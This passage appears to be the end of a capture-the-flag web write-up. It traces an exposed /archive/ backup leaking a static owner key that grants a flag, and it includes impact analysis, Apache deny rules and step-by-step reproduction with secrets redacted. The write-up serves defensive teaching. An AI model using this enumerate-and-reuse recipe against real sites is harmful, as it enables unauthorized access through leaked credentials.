| Directory listing | File names and sizes were publicly enumerable. | It did not prove sensitive contents or live credential validity. |
| `README.txt` | The files were unintended migration debris. | It did not prove the configuration snapshot contained real secrets. |
| `config.php.bak` | The backup exposed credentials, auth keys, and `OWNER_KEY`. | It did not prove any disclosed value remained active. |
| Source comment | `OWNER_KEY` was associated with `/owner`. | It did not prove the route existed or define the request transport. |
| `GET /owner` | The live form required `POST /owner.php` and `owner_key`. | It did not prove the exposed key would authenticate. |
| Invalid key | The request contract worked and incorrect credentials were rejected. | `HTTP 200` alone did not indicate access. |
| Valid key | The exposed key produced `owner: verified` and the flag. | It did not prove database or WordPress secrets were active. |
| `Cookie`-less replay | The `OWNER_KEY` was sufficient without session credentials. | It did not establish any broader owner-console functionality beyond the returned result. |
| `curl` differential | A separate client reproduced the same semantic oracle. | It did not expand testing beyond the intended challenge objective. |

## 13. Impact

In the reproduced lab, any unauthenticated user could enumerate a public migration directory, download a legacy configuration snapshot, obtain a live static owner credential, and receive server-side owner verification and the challenge flag. The same file also disclosed database connection values and WordPress authentication keys, although those additional values were not tested for current validity.

In a production environment, an equivalent chain could expose privileged workflows permitted by the leaked credential, enable database compromise if the disclosed database values remained valid, and undermine WordPress authentication integrity if the exposed keys were still active. Rotating those keys would invalidate existing WordPress authentication cookies; actual user impersonation would require additional user and session material. Credential reuse could also increase lateral-movement risk. Actual severity depends on which disclosed values remain valid and what the privileged console permits.

> **Impact qualification:** Confirmed impact is limited to public secret disclosure, current validity of the `OWNER_KEY`, owner verification, and flag disclosure. Database access, WordPress user impersonation, destructive actions, and broader administrative capabilities were not attempted and are not claimed.

## 14. Remediation

### 14.1 Immediate Containment

- Remove `/archive/` and all migration snapshots from the public document root.
- Rotate `OWNER_KEY`, database credentials, and every WordPress authentication key exposed in the backup.
- Rotate the exposed WordPress authentication keys to invalidate existing authentication cookies, then review access logs for requests to the listed files and privileged endpoint.
- Search the complete deployment for additional .bak, .old, .orig, .save, .zip, .sql, export, and temporary artefacts.

### 14.2 Web-Server Controls

```apache
Options -Indexes

<FilesMatch "\.(bak|old|orig|save|tmp|copy|sql|dump|zip|tar|gz|tgz)$">
    Require all denied
</FilesMatch>

<Directory "/var/www/html/archive">
    Require all denied
</Directory>
```

Extension blocks are defense in depth, not a substitute for removing sensitive files. Backups and migration data should never be deployed under a public web root.

### 14.3 Secret and Authentication Design

- Move secrets to an approved secrets manager or environment-specific protected configuration store.
- Replace the shared static `OWNER_KEY` with named user accounts, strong authentication, MFA, role-based authorization, and auditable server-side sessions.
- Use short-lived administrative credentials and enforce rotation after migrations, incident response, or personnel changes.

### 14.4 Deployment and SDLC Controls

- Add CI/CD deny-list checks for backup, export, archive, and secret-bearing files before release.
- Run post-deployment web-root inventory and unauthenticated content-discovery checks.
- Assign migration-cleanup ownership, a removal deadline, and go-live verification criteria.
- Maintain automated tests confirming that sensitive directories return `403/404` and privileged routes reject anonymous and non-owner identities.

## 15. Reproduction Reference

> **Reproduction contract:** Use a fresh authorized instance and preserve the evidence order. The finding is confirmed only when the publicly disclosed key is accepted by the live owner consumer; a redirect, directory listing, secret-bearing file, or `HTTP 200` response alone is insufficient.

1. **Establish the current-instance baseline.** Capture `GET /` and verify the active host and Dust Jacket application identity.
2. **Confirm the archive path.** Request `GET /archive` and record the canonical redirect to `/archive/`.
3. **Prove public indexing.** Request `GET /archive/` and retain the full directory inventory.
4. **Establish unintended exposure.** Retrieve `README.txt` and confirm the migration-debris and cleanup context.
5. **Inspect the critical backup.** Retrieve `config.php.bak`, redact all reusable values, and identify the `OWNER_KEY`-to-`/owner` mapping.
6. **Map the live consumer.** Request `GET /owner` and record `POST /owner.php`, `application/x-www-form-urlencoded`, and `owner_key`.
7. **Create the negative oracle.** Submit a format-correct invalid key and require the explicit validation error.
8. **Run the proof request.** Change only `owner_key` to the disclosed value, remove `Cookie` and `Authorization`, and require `owner: verified` plus the current flag.
9. **Triangulate safely.** Reproduce the invalid-versus-valid differential with `curl`, redact public output, and retain raw secret-bearing artefacts privately.

## 16. Lessons Learned

The evidence chain supports six reusable lessons for future authorized web-security testing:

- **Not linked does not mean inaccessible.** Direct routing and content discovery routinely expose forgotten deployment material.
- **Migration debris deserves priority.** Configuration snapshots, exports, archives, and handoff notes frequently preserve the most security-sensitive state.
- **Review small files completely.** A short source comment can map a leaked credential to its exact live consumer.
- **Separate source disclosure from runtime proof.** A secret becomes a confirmed active finding only when the intended consumer accepts it under controlled conditions.
- **Status is not semantics.** Both invalid and valid requests returned `HTTP 200`; the body and `Content-Type` created the authoritative oracle.
- **Triangulate without overtesting.** Caido proved the HTTP chain and controlled differential; `curl` independently confirmed the result without expanding scope.

## 17. Final Result and Conclusion

**Discovery.** The Dust Jacket server exposed a real `/archive` directory and an Apache-generated index. The listed README confirmed unintended migration debris, while `config.php.bak` disclosed sensitive configuration material and a static `OWNER_KEY` associated with the owner console.

**Validation and verdict.** The live `/owner` form established the exact `POST /owner.php` request contract. A format-correct invalid key returned an explicit rejection. Replacing only the `owner_key` value with the key from the public backup, while omitting `Cookie` and `Authorization` headers, returned `owner: verified` and the current-instance flag. `curl` independently reproduced the same differential.

```text
CURRENT-INSTANCE RESULT
Exposed resource: GET /archive/config.php.bak
Authentication endpoint: POST /owner.php
Request state: No Cookie or Authorization header
Primary weakness: CWE-219
Supporting weaknesses: CWE-548 and CWE-798
Flag: WEBVERSE{REDACTED}
Status: SOLVED / VERIFIED
```

### Technical References

**Weakness mapping:** [CWE-219](https://cwe.mitre.org/data/definitions/219.html)  |  [CWE-548](https://cwe.mitre.org/data/definitions/548.html)  |  [CWE-798](https://cwe.mitre.org/data/definitions/798.html)

**OWASP Top 10:2025:** [A01 Broken Access Control](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)  |  [A02 Security Misconfiguration](https://owasp.org/Top10/2025/A02_2025-Security_Misconfiguration/)

**WordPress:** [Authentication cookie validation](https://developer.wordpress.org/reference/functions/wp_validate_auth_cookie/)  |  [Security keys and salts](https://developer.wordpress.org/apis/wp-config-php/)
